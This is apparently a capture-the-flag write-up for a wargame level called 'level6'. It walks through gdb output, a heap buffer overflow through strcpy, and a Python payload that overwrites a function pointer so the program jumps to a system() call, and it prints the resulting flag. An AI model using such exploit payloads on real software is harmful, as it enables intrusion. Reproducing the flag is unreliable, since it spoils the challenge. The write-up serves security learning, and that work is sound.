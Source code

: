## level6
The `level6` can be bypassed by bringing you another disturbing creation from the mind of one sick animal who can use a **buffer overflow** and get you stupified.<br>
We are already getting comfortable with this strategy let see what we have here straight
```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f4  _init
0x08048340  strcpy                           <---- Vunerable
0x08048340  strcpy@plt
0x08048350  malloc
0x08048350  malloc@plt
0x08048360  puts
0x08048360  puts@plt
0x08048370  system
0x08048370  system@plt
0x08048380  __gmon_start__
0x08048380  __gmon_start__@plt
0x08048390  __libc_start_main
0x08048390  __libc_start_main@plt
0x080483a0  _start
0x080483d0  __do_global_dtors_aux
0x08048430  frame_dummy
0x08048454  n                             <---- Never called (So here is the bounty)
0x08048468  m
0x0804847c  main
0x080484e0  __libc_csu_init
[...]
```
Dsisassembling `main()` we can see two call to `malloc()` 
```
0x08048485 <+9>:	movl   $0x40,(%esp)
0x0804848c <+16>:	call   0x8048350 <malloc@plt>
0x08048491 <+21>:	mov    %eax,0x1c(%esp)
0x08048495 <+25>:	movl   $0x4,(%esp)
0x0804849c <+32>:	call   0x8048350 <malloc@plt>
```
We know from the disassembled code that those `0x40 (64) bytes` will be the buffer where `strcpy()` will copy the argument we passed at the start of the prgram and
the `x04` will be used to store the __address__ of the function `m()` in the *heap* that's the only purpose in life *(yes functions now have a life :p)* is to print __*Nope*__ and
as you may guess by now, our only purpose in life *(does hackers have a life ?)* is to write enough garbage in the buffer passed to `strcpy()` and put the __address__
with the `n()` function that contains the `system()` call into those `0x4 bytes` *heap* __address__ .
<br> Let's go back to our friendly website [buffer-overflow-generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) and grab the 200 characters long poison,
next let's fire up `GDB` and see what we can do: <br>
```
(gdb) r [pattern]
Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()
```
Writing a buffer large enough we can go outside the boundary of the `64 bytes` __address__ and overwirte the pointer in the *heap* to the `m()` function with the 
`n()` function __address__.<br>
If we go back to *buffer-overflow-generator* and paste this __address__ *(0x41346341)* in *Find the offset*  we get our **offset** `72`<br> find the `n()` function __address__
```
(gdb) disas n
   0x08048454 <+0>:	push   %ebp                      <---- here we have it (remember little end first)
   0x08048455 <+1>:	mov    %esp,%ebp
   0x08048457 <+3>:	sub    $0x18,%esp
   0x0804845a <+6>:	movl   $0x80485b0,(%esp)
   0x08048461 <+13>:	call   0x8048370 <system@plt>
   0x08048466 <+18>:	leave
   0x08048467 <+19>:	ret
```
<br>now all we need to do is create a string with
72 random caracters plus the `n()` __address__, it should look like something like this<br>
```
python -c "print 'A' * 72 + '\x54\x84\x04\x08'" > /tmp/poison

~$ ./level6 `cat /tmp/poison`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
